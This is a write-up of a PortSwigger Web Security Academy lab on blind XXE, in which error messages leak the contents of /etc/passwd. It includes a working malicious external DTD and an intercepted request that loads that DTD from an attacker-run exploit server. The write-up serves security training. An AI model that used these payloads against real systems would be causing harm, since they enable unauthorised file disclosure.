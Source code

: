 ```yaml
---
title: 'Lab: Exploiting blind XXE to retrieve data via error messages'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: Exploiting blind XXE to retrieve data via error messages
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input but does not display the result.
* Goal: To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.
The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.


## Recon
This is very similar to the previous lab(Exploiting blind XXE to exfiltrate data using a malicious external DTD)
1. Complete Malicious Server Payload and Store
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
    %eval;
    %exfil;
    ```
2. Complete Intercept Packet Payload
    Intercept the packet that you click `Check stock` button in arbitrary product page.
    Copy and paste your malicious server URL to `YOUR-DTD-URL`, e.g. `https://exploit-{YOUR-RANDOM-URL}.exploit-server.net/exploit`
    
    ```xml
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
    ```
3. Send packet!!!


## Exp
:::spoiler Malicious Server Payload
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
:::
:::spoiler Intercept Packet Payload
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ad100a2040f8d8e821cce250179002c.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```
:::

:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/SJPESjIEh.png)

---
![](https://hackmd.io/_uploads/rJjHSjLNn.png)
:::